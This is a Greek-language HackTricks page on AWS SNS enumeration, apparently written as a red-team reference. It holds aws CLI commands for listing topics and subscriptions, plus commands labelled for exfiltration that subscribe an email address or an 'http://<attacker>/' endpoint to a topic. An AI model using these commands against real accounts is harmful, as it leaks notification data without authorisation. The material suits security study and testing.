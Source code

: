 # AWS - SNS Απαρίθμηση

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## SNS

Το Amazon Simple Notification Service (Amazon SNS) περιγράφεται ως ένα **πλήρως διαχειριζόμενο υπηρεσίας αποστολής μηνυμάτων**. Υποστηρίζει τόσο την **επικοινωνία εφαρμογής προς εφαρμογή** (A2A) όσο και την **επικοινωνία εφαρμογής προς άτομο** (A2P).

Οι βασικές δυνατότητες για την επικοινωνία A2A περιλαμβάνουν τους μηχανισμούς **δημοσίευσης/συνδρομής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, τα οποία είναι κρίσιμα για τη δυνατότητα υψηλής απόδοσης, **μετάδοσης βασισμένης σε push, πολλαπλών προς πολλαπλούς μηνυμάτων**. Αυτή η δυνατότητα είναι ιδιαίτερα πλεονεκτική σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, υπηρεσίες microservices και αρχιτεκτονικές serverless που βασίζονται σε γεγονότα. Χρησιμοποιώντας αυτά τα θέματα, τα συστήματα δημοσιοποιητών μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα μοτίβο μηνυμάτων fanout.


### **Διαφορά με το SQS**

Το **SQS** είναι μια υπηρεσία βασισμένη σε **ουρά**, που επιτρέπει την επικοινωνία σημείου προς σημείο, εξασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μόνο καταναλωτή**. Προσφέρει **παράδοση τουλάχιστον μία φορά**, υποστηρίζει τυπικές και FIFO ουρές και επιτρέπει τη διατήρηση μηνυμάτων για επαναπροσπάθειες και καθυστερημένη επεξεργασία.\
Από την άλλη πλευρά, το **SNS** είναι μια υπηρεσία βασισμένη σε **δημοσίευση/συνδρομή**, που επιτρέπει την **επικοινωνία ενός προς πολλούς** με τη μετάδοση μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορα σημεία συνδρομής όπως email, SMS, συναρτήσεις Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ συστατικών σε κατανεμημένα συστήματα, το SQS επικεντρώνεται στην ουρά επικοινωνίας, ενώ το SNS τονίζει τα μοτίβα επικοινωνίας που βασίζονται σε γεγονότα και fan-out.
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο οι συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (δεν μπορεί να χρησιμοποιηθεί το HTTP ή το HTTPS).

Επίσης, ακόμη κι αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι καθορίζετε τη σωστή περιοχή στο **`--region`** ή θα λάβετε ένα σφάλμα που φαίνεται να υποδεικνύει ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.
{% endhint %}

### Μη εξουσιοδοτημένη πρόσβαση

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Ανόδος ικανοτήτων

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Μετά από εκμετάλλευση

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Διατήρηση

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# Αναφορές
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
